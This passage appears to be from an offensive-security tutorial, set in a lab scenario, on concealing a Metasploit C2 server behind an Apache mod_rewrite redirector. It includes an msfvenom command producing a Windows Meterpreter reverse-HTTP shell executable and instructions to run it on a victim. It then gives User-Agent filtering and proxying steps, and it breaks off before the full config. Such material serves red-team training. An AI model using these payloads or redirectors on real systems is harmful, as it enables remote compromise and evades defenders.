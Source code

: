 **Generating a Payload with Modified Headers -**

**Generating a Modified HTTP Payload with Meterpreter**

```
root@kali$ msfvenom -p windows/meterpreter/reverse_http LHOST=tun0 LPORT=80 HttpUserAgent=NotMeterpreter -f exe -o shell.exe[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload[-] No arch selected, selecting arch: x86 from the payloadNo encoder specified, outputting raw payloadPayload size: 454 bytesFinal size of exe file: 73802 bytesSaved as: shell.exe
```

After generating the modified executable and transferring it to a victim, open up Wireshark on your host and use the `HTTP` filter to only view HTTP requests. After it's started capturing packets, execute the binary on the victim system. You will notice an HTTP request come in with our modified User-Agent.

![](https://miro.medium.com/v2/resize:fit:1400/0*P6nzbf_h-HIfo0eD.png)

_Packet Capture of the modified HTTP Payload with Meterpreter_

Now that we have a field we can control in the HTTP Request, let’s create an Apache2 mod\_rewrite rule that filters on the user agent “NotMeterpreter” and forward it to our Metasploit C2 Server.

**Modifying the Apache Config File -**

This section may sound intimidating but is actually quite easy; we will be taking the default Apache config and modifying it to our advantage. On Debian based systems, the default config can be found at `/etc/apache2/sites-available/000-default.conf`.

**Default Apache2 Config**

```
root@kali$  cat /etc/apache2/sites-available/000-default.conf  | grep -v '#'<VirtualHost *:80>        ServerAdmin webmaster@localhost        DocumentRoot /var/www/html        <Directory>                AllowOverride All        </Directory>        ErrorLog ${APACHE_LOG_DIR}/error.log        CustomLog ${APACHE_LOG_DIR}/access.log combined</VirtualHost>
```

Now that we have a general idea of the Apache2 Config file is structured, we must add a few lines to the config file to enable the Rewrite Engine, add a rewrite condition, and lastly, pass through the Apache 2 Proxy. This sounds fairly complex, but it’s quite simple.

To enable the [Rewrite Engine](https://httpd.apache.org/docs/2.4/mod/mod_rewrite.html), we must add `RewriteEngine On` onto a new line in the VirtualHost section.

Now we will be using a Rewrite Condition targeting the HTTP User-Agent. For a complete list of HTTP Request Targets, see the [mod\_rewrite documentation](https://httpd.apache.org/docs/2.4/mod/mod_rewrite.html) on Apache.org. Because we only want to match the User-Agent “NotMeterpreter”, we need to use some basic Regular Expressions to capture this; adding a ^ signals the beginning of a string and a $ at the end of the series, giving us with “^NotMeterpreter$”. This Regex will **only** capture the NotMeterpreter User-Agent. We can add this line `RewriteCond %{HTTP_USER_AGENT} "^NotMeterpreter$"` to our config to (as previously stated) only allow HTTP Requests with the NotMeterpreter user agent to access Metasploit.

Lastly, we must forward the request through Apache2, through our proxy, to Metasploit. To do this, we must use the ProxyPass feature of Apache’s [mod\_proxy module](https://httpd.apache.org/docs/2.4/howto/reverse_proxy.html). To do this, we just need to specify the base URI that the request will be forwarded to (in our case, we just need “/”), and the target we want to forward the request to. This **will** vary from setup to set up, but this IP Address will be your C2 server. In the lab scenario, it will be localhost and port that Metasploit is listening on. This will give us a full config file that looks like so:
